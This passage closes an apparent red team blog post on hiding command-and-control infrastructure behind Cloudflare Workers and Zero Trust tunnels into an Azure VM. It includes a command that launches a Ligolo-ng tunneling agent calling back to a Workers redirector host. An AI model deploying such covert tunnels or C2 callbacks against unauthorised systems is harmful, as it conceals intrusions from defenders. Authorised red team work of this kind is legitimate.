 ![image8](images/image8.png "image8")

So, if you are still with me that is now all we need to access our cloud infrastructure via Cloudflare. Just to summarise, this is now how it all becomes operational:

1. We update Cloudflare as I have shown to expect our custom header values.
2. We update Cloudflare to expect a custom IP should we want to grab files from a specific IP.
3. We can generate a C2\\Ligolo agent with a custom header. Therefore, with the branched websockets version of Ligolo-ng as an example you can do the following:`ligolosockets.exe -connect https://redirector.myname.workers.dev:443 -ua MY-LIGOLO`
4. We send all of our requests to the Worker redirector URL and not to the tunnels directly as the Worker will add the zero trust header values required to enter the tunnels. Accessing them directly will no longer work except for the email login to our file server.
5. The worker passes the request to the app sitting in front of the tunnels which then checks for the service auth token to make sure it matches.
6. If the service auth token matches, the request is directed to that specific tunnel. This then flows into the internal URL of our Cloud VM (which is specified in the tunnel config) to provide us with our connectivity.

The above Cloudflare configuration coupled with Azure snapshots and Tmux Resurrect make for a really nice combination in regards swiftly bringing up your red team infrastructure. We hope that you found this useful, and we feel that it is worth trying this setup out for yourself and your team if you want to speed up your infrastructure creation.
